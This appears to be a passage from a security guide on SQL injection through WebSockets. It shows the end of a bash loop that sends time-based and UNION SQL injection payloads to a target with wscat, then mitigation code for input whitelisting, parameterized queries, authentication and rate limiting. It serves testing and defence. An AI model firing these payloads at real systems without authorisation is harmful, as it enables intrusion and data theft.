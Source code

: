 ```bash
    "1 AND SLEEP(5)-- -"
    "1 UNION SELECT @@version-- -"
)

for payload in "${payloads[@]}"; do
    echo "Testing payload: $payload"
    echo "{\"id\":\"$payload\"}" | wscat -c $URL
    echo "---"
    sleep 2
done
```

---

## Mitigation and Prevention

### Secure WebSocket Implementation
```javascript
// Input validation
function validateInput(data) {
    // Whitelist allowed characters
    if (!/^[a-zA-Z0-9_-]+$/.test(data)) {
        throw new Error("Invalid input");
    }
    return data;
}

// Parameterized queries
const query = "SELECT * FROM users WHERE id = ?";
db.query(query, [userId], callback);

// Prepared statements
const stmt = db.prepare("SELECT * FROM users WHERE id = ?");
stmt.run(userId);
```

### WebSocket Security Headers
```javascript
// Implement proper authentication
ws.on('connection', function(socket, request) {
    // Verify JWT token or session
    if (!isAuthenticated(request)) {
        socket.close(1008, 'Authentication required');
        return;
    }
});

// Rate limiting
const rateLimiter = new Map();
ws.on('message', function(data) {
    const clientId = getClientId(this);
    if (isRateLimited(clientId)) {
        this.close(1008, 'Rate limit exceeded');
        return;
    }
});
```

---